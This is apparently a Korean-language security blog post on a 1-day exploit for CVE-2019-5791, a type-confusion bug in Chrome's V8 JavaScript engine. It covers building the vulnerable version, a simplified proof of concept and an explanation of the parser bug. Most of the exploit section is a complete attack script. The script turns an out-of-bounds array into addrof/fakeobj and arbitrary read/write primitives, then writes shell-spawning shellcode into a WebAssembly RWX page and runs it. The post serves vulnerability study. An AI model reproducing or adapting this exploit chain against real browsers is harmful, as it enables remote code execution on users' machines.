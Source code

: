 ```yaml
---
layout: post
title: CVE-2019-5791 1day exploit
categories: Browser
tags: [v8, 1day]
---
```


## 목차

- 빌드
- POC
- Exploit
- 레퍼런스

---

## 빌드

```bash
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
export PATH=`pwd`/depot_tools:"$PATH"
fetch v8 
cd v8 
git checkout b267f94ffca9fb90d04ffa03c910d8508c20dd26
gclient sync
build/install-build-deps.sh
tools/dev/gm.py x64.release
```

---

## POC

- POC 코드

  - https://bugs.chromium.org/p/chromium/issues/detail?id=926651

  - 총 2가지의 POC가 존재한다.

  - 근데 이 POC들은 조금 복잡하게 표현되어 있어서 단순화 시키면 다음과 같다.

    ```jsx
    call = function (code) {
    	try { code(); } catch (e) { console.log(e); }
    }
    
    function run() {
        const f = (v1 = (function() {
    	    var v2 = 0;
    	    var v3 = 0;
            if (asdf) { return; } else { return; }
            (function() { print("not trigger") });
    	    (function() { v3 = 'A'.repeat(5000); v2 = [1, 2, 3, 4, 5, 6] });
    	})()) => 1;
    	f();
    }
    
    let oob = {};
    
    %DebugPrint(oob);      // Object map
    %DebugPrint(run);      // JSFunction
    
    call(() => (run()));
    call(() => (run()));
    
    %DebugPrint(oob);      // JSArray[6] (v2)
    %DebugPrint(run);      // Array map
    
    run[13] = 0x41414141   // oob!!
    print(oob.length)
    ```

- call 함수로 run 함수를 2번 트리거하면 oob 객체는 v2라는 JSArray로, run 함수의 Map이 Array로 바뀌어 있다.

- 이 버그는 js 코드를 파싱하고 AST를 만드는 과정에서 최적화를 하려다 꼬인 경우이다.

- run 함수 내엔 두 가지의 익명 함수가 정의되어 있다.

  - 이 중 첫 번째 익명 함수는 트리거되지 않는다.
  - 두 번째 익명 함수는 run 함수가 2번째 call될 때 호출된다.
    - `v3 = 'A'.repeat(5000);` 가 실행되면 run 함수의 map이 Array map으로 변경되며 type confusion이 발생한다.
    - `v2 = [1, 2, 3, 4, 5, 6]` 가 실행되면 oob 객체가 지금 선언한 v2로 바뀐다.


- run 함수의 map이 Array map으로 바뀌게 되었고 13번째 인덱스 부분을 수정하면 v2로 변한 oob의 length를 바꿀 수 있게되어서 oob가 생긴다.

- oob가 트리거 되는 확률은 높지않다.

  - 힙쪽 oob인데, 여러 쓰레드에서 하나의 힙을 사용하다보니 힙 구성이 그때그때 달라지기 때문이다.

---

## Exploit

- 현 POC에선 oob가 발생하는 배열이 float가 아니어서 oob read가 되지 않는다. 그래서 v2를 float 배열로 바꿔준 후 디버깅을 통해 length offset을 다시 찾아서 0x41414141로 변경해주어야 한다.

- 그리고 obj_arr과 float_arr을 생성해서 `addrof`와 `fakeobj`를 만들어야하는데, 이 배열을 v2 바로 뒤에 생성하는게 oob 배열에서 접근하는 것이 더 편했다.

- 이제 oob 배열을 통해 `obj_arr_map`과 `float_arr_map`을 leak하고 type confusion을 일으켜서 addrof와 fakeobj를 구현하고 aar과 aaw를 만들어서 익스 하면 끝이다.

- rwx의 offset은 버전마다 달라져서 디버깅을 해보니 현 버전에선 `wasm_i_addr+0xf0n` 이었다. (vmmap으로 rwx 영역 확인 후 search -t qword rwx영역 으로 검색)

- 익스코드

  ```jsx
  call = function (code) {
      try { code(); } catch (e) { console.log(e); }
  }
  
  function run() {
      const f = (v1 = (function() {
  	      var v2 = 0;
  	      var v3 = 0;
      	  if (asdf) { return; } else { return; }
      	  (function() { print("not trigger") });
  	      (function() {
  		      v3 = 'A'.repeat(5000);
  		      v2 = [1.1, 1.2, 1.3, 1.4];
  		      obj_arr = [{}].slice();
  		      float_arr = [1.1, 1.2, 1.3, 1.4];
  		  });
      })()) => 1;
      f();
  }
  
  let oob = {};
  
  call(() => (run()));
  call(() => (run()));
  
  run[19] = 0x41414141;
  print('oob.length: ' + hex(oob.length));
  
  var buf = new ArrayBuffer(8); 
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  
  function ftoi(val) { 
      f64_buf[0] = val;
      return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
  }
  
  function itof(val) { 
      u64_buf[0] = Number(val & 0xffffffffn);
      u64_buf[1] = Number(val >> 32n);
      return f64_buf[0];
  }
  
  function hex(b) {
      return ('0x' + b.toString(16));
  }
  
  if (oob.length == 0x41414141) {
      obj_arr_map = oob[28];
      float_arr_map = oob[38];
  
      print("float_arr_map: " + hex(ftoi(float_arr_map)));
      print("obj_arr_map: " + hex(ftoi(obj_arr_map)));
  
      var arb_rw_arr = [float_arr_map, 0, 1.3, 8];
  
      function addrof(obj) {
  	      obj_arr[0] = obj;
  		  oob[28] = float_arr_map;
  		  let addr = obj_arr[0];
  		  oob[28] = obj_arr_map;
  		  return ftoi(addr);
  	  }
  
  	  function fakeobj(addr) {
  	      float_arr[0] = itof(addr);
  		  oob[38] = obj_arr_map;
  		  let fake = float_arr[0];
  		  oob[38] = float_arr_map;
  
  		  return fake;
  	  }
  
      function aar(addr) {
          let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
          arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
  
           return ftoi(fake[0]);
  	  }
  
  	  function aaw_init(addr, val) {
          fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
          arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
      	  fake[0] = itof(BigInt(val));
  	  }
  
  	  var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
  	  var wasm_mod = new WebAssembly.Module(wasm_code);
  	  var wasm_instance = new WebAssembly.Instance(wasm_mod);
  	  var f = wasm_instance.exports.main;
  	  var wasm_i_addr = addrof(wasm_instance);
  	  var rwx = aar((wasm_i_addr)+0xf0n);
  
  	  print('rwx: ' + hex(rwx));
  
  	  var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  	  var shellcode_buf = new ArrayBuffer(0x100);
  	  var dataview = new DataView(shellcode_buf);
  	  aaw_init(addrof(shellcode_buf)+0x20n, rwx);
  
  	  for (var i=0; i<shellcode.length; i++) {
  	      dataview.setUint32(4*i, shellcode[i], true);
      }
  	  f();	
  }
  ```

---

## 레퍼런스

-  https://bugs.chromium.org/p/chromium/issues/detail?id=926651
